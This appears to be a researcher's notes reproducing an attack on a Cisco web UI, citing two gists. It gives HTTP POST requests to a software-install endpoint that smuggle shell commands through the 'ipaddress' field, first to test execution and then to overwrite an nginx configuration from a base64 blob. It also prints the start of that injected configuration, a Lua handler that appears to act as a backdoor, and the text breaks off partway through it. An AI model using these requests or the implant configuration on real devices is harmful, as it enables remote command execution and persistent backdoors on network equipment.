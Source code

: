 
##
#
https://gist.github.com/rashimo/a0ef01bc02e5e9fdf46bc4f3b5193cbf
#
https://gist.github.com/retr0h/5fcd058f6512cef92cfd81f8fac534b9
#
##


## a POST request as: 

POST /webui/rest/softwareMgmt/installAdd HTTP/1.1

{"filePath": "abc/aaa", "fileSystem": "", "ipaddress": "1:1:1:;id>/bootflash/PaJbOLOT;#", "mode": "tftp", "operation_type": "SMU"}

## then another command with the POC technique: 

dir bootflash: | include PaJbOLOT

## then again (the base64 encoded body was shortened) 

POST /webui/rest/softwareMgmt/installAdd HTTP/1.1

{"filePath": "abc/aaa", "fileSystem": "", "ipaddress": "1:1:1:;python -m base64 -d <<< CiMKIyBDb3B5cmlnaHQgKGMpIDIwMTQtMjAxOSBieSBDaXNjbyBTeXN0ZW1zLCBJbmMuCiMgQWxsIHJ > /usr/binos/conf/nginx-conf/cisco_service.conf;#", "mode": "tftp", "operation_type": "SMU"}

## the Base64 value is an Nginx configuration:
###############################################################
#
# Copyright (c) 2014-2019 by Cisco Systems, Inc.
# All rights reserved
#
# This file is stored as /usr/binos/conf/nginx-conf/cisco_service.conf 



location /webui/logoutconfirm.html {
    add_header Content-Type text/html;
    add_header Cache-Control 'no-cache, no-store, must-revalidate';
    add_header Pragma no-cache;
    add_header Strict-Transport-Security "max-age=31536000; includeSubdomains";
    content_by_lua '
        local authorized = false
        local content = ""
        local method = ngx.req.get_method()
        local headers = ngx.req.get_headers()
        local params = ngx.req.get_uri_args()
        if (method == "POST" and params ~= nil) then
        